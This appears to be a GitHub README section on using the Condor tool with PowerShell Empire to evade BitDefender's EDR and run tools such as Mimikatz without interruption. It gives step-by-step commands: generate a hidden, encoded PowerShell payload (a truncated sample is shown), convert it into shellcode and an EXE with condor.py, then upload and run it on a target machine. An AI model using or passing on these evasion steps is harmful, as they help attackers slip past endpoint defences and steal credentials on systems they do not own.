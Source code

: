 # Using Condor + Powershell Empire

The [condor](https://github.com/MrEmpy/Condor) tool is also able to bypass BitDefender's EDR, including running Powershell Empire's own tools without any interruption, such as Mimikatz.

1. Open your Powershell Empire and generate a Powershell payload, example:

```
powershell -Sta -Nop -Window Hidden -EncodedCommand cwB2ACAAbwAgACg...
```

2. Run the condor tool with the following command:

```
python3 condor.py -p windows/x64/exec
```

3. Paste the Powershell payload to generate the shellcode

4. Upload the EXE to the machine and run.

![](Images/bitdefender.png)
